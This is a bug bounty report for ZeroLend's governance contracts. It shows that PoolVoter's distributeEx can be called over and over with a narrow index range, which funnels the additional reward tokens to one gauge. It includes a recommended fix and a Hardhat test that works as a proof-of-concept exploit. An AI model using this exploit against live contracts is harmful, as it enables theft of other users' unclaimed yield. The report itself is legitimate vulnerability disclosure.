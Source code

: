
# Mechanism for distributing extra reward tokens is broken

Submitted on Mar 4th 2024 at 04:07:39 UTC by @MahdiKarimi for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28988

Report type: Smart Contract

Report severity: High

Target: https://github.com/zerolend/governance

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
PoolVoter mechanism for distributing additional reward tokens is vulnerable and allows an attacker transfer all additional reward tokens to a desirable gauge in favor of himself. 

## Vulnerability Details
PoolVoter has 2 diffrent mechanism for distributing rewards, first is simple distribution which is intended to distribute main reward token, also there is a mechanism to distribute additional rewards other than main reward token through `distributeEx` function, in this implementation additional reward token balance of PoolVoter has been distributed to different gauges proportion to each gauge weight and totalWeight, `distributeEx` enables users to choose which pools to distribute rewards by start and end parameters, this creates a situation which enables malicious user to distribute rewards to one gauge in favor of himself and call this function again  to distribute remaining balance again, and repeat this process to transfer almost all reward tokens to a specific gauge. It is recommended to ensure `distributeEx` iterates through all pools and transfers additional rewards at once. 

## Impact Details
It enables a malicious user to transfer all additional reward tokens to one specific gauge in favor of himself, this is considered a theft of unclaimed yield.

## References
https://github.com/zerolend/governance/blob/a30d8bb825306dfae1ec5a5a47658df57fd1189b/contracts/voter/PoolVoter.sol#L214-L234


## Proof of Concept
```
  describe("transfer additional rewards test", () => {
    it("Malicious user can transfer all additional rewards to a speciefic gauge", async function () {
    
    // NOTE: this test works with https://github.com/zerolend/governance/commit/4c18c037bd3360ec7316733478b67632fb5218c9 commit 
    // tests didn't work at latest commit, however there is no change at pool voter other than changing some variable names between two commits 
    // so there is no differece 
    // some parts has been added to deployement as follow
    // a new lending pool has been deployed during deployment and its gauge has been registered at pool voter during deployment 
    // some zero tokens has been transferred to ant.address, so ant.address have enough zero token balance 
    // there is an issue at line 136 of PoolVoter by missing a ! sign, which prevents adding pools to _pool array and preventing distribute rewards 
    // since this issue relates to distributing rewards I needed to fix that so distribute function works by fixing if statement 
    // however I submitted that issue seperately and its different from this issue 

    // voting to both gauges equally 
    let vote1 = 1e8/2;
    let vote2 = 1e8/2; 
    await poolVoter.connect(ant).vote([reserve.target, reserve2.target],[vote1, vote2]);
   
    // we consider zero is additional reward token of the pool voter ( not main reward token ) 
    // transferring rewards to pool voter 
    await zero.connect(ant).transfer(poolVoter.target, 1e6);

    // retrieve pool voter contract balance 
    let balance0 = await zero.balanceOf(poolVoter);

    // call distributeEx with start:0 and end:1 so rewards would be distributed only to fisrt gauge  
    // since first gauge has half of total weight so it would receive half of balance 
    await poolVoter["distributeEx(address,uint256,uint256)"](zero.target, 0,1);

    // we call it again so half of remaining balance would be distributed to first gauge again 
    // this process can be repeated to transfer all additional rewards to one gauge 
    await poolVoter["distributeEx(address,uint256,uint256)"](zero.target, 0,1);

    // we can see that half 
    let balanceAfter = await zero.balanceOf(poolVoter);
    expect(balanceAfter).lessThan(balance0);

    });
  });
```